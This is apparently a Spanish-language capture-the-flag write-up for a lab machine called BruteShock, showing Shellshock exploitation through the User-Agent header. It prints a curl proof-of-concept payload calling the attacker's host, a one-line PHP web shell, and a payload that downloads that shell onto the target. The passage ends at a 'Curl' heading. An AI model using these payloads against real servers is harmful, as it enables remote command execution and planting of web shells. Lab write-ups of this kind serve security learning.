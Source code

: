 Podemos ver que nos reporta un mensaje que dice: `User-Agent almacenado en el log`, lo que nos puede ayudar en nuestra explotación

## ShellShock

Pensé que esta explotación sería algo sobre envenenamiento hasta que me acordé del nombre de la máquina, se trataría de `Shellshock`. Este es un ataque que se lleva a cabo a través de la cabecera `User-Agent` , un bug de `bash` que permite la ejecución remota de comandos, una detección para esta máquina sería la siguiente

![[Pasted image 20241105222724.png]]

## Proof of Concept

Ejecutamos esta solicitud `http` para la URL `http://bruteshock.local/pruebasUltraSecretas`

~~~ bash
curl -I -sLX GET http://bruteshock.local/pruebasUltraSecretas/ -A "() { :; }; curl http://10.88.0.1/test"
~~~

![[ShellShock PoC.mp4]]

Aprovecha el bug Willy!. En el ejemplo anterior estaríamos intentando enviarnos una solicitud HTTP a nuestro servidor `python3`. Es cuando el payload se ejecuta correctamente y envía un `request` a nuestro servidor solicitando un archivo `test`

## File Upload

Aprovechando este bug podremos enviar una `reverse shell` a nuestra máquina atacante, para ello crearemos un archivo que usaremos para ejecutar comandos, nos ayudaremos de `Brupsuite` o `curl`

Archivo `rce.php`
 
~~~ bash
echo '<?php system($_GET["cmd"]); ?>' > rce.php
~~~

Modificaremos el `User-Agent` y enviaremos la siguiente solicitud, pero primero tendremos un servidor HTTP con `python3`

![[Pasted image 20241105231701.png]]

### Burpsuite

En `Burpsite` interceptaremos el tráfico y enviaremos la siguiente solicitud

~~~ bash
() { :; }; curl http://10.88.0.1/rce.php -o exec.php
~~~

![[Pasted image 20241105231020.png]]

### Curl
